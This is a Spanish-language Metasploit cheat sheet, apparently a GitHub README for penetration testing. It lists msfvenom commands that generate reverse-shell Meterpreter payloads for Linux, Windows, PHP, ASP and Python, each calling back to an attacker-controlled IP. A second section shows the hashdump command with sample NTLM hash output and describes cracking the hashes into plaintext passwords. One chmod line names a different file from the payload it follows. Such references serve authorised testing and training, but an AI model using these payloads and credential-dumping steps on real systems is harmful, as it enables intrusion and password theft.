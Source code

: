 # Cheat Sheet Metasploit
Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en tests de penetración "Pentesting" y el desarrollo de firmas para sistemas de detección de intrusos.

### Cargas Útiles
Según la configuración del sistema de destino (sistema operativo, servidor web instalado, instalador intérprete, etc.), msfvenom se puede usar para crear cargas útiles en casi todos los formatos. A continuación hay algunos ejemplos que usará a menudo:
En todos estos ejemplos, LHOST será la dirección IP de su máquina atacante y LPORT será el puerto en el que escuchará su controlador.

**Linux Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
```
chmod +x shell.elf
```
**Windows Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
**PHP Shell**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
**ASP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
**Python Shell**
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

### Dump Password Windows
Las contraseñas de Windows 10 almacenadas como hashes NTLM se pueden volcar y filtrar al sistema de un atacante en segundos. Los hashes se pueden forzar bruscamente y descifrar muy fácilmente para revelar las contraseñas en texto sin formato utilizando una combinación de herramientas, incluidas Mimikatz, ProcDump, John the Ripper y Hashcat.
**Dump Hash**
```
hashdump
```
```
Administrator:500:CEEB0FA9F240C200417EAF40CFAC29C3:D280553F0103F2E643406517296E7582:::
User1:1011:7584248B8D2C9F9EAAD3B435B51404EE:186CB09181E2C2ECAAC768C47C729904:::
User2:1012:AC5BA6A944526699AAD3B435B51404EE:F07A9DFFFC2C5C7F9D9EBC83FD69D68E:::
User3:1013:E7EED3F5C2C85B88AAD3B435B51404EE:6AA15B3D14492D3FA4AA7C5E9CDC0E6A:::

1 Campo: nombre de usuario (Administrador, Usuario1, etc.)
2 Campo: Identificación Relativa (RID): últimos 3-4 dígitos del Identificador de Seguridad (SID),que son únicos para cada usuario
3 Campo: hash LM
4 Campo: hash NTLM
```

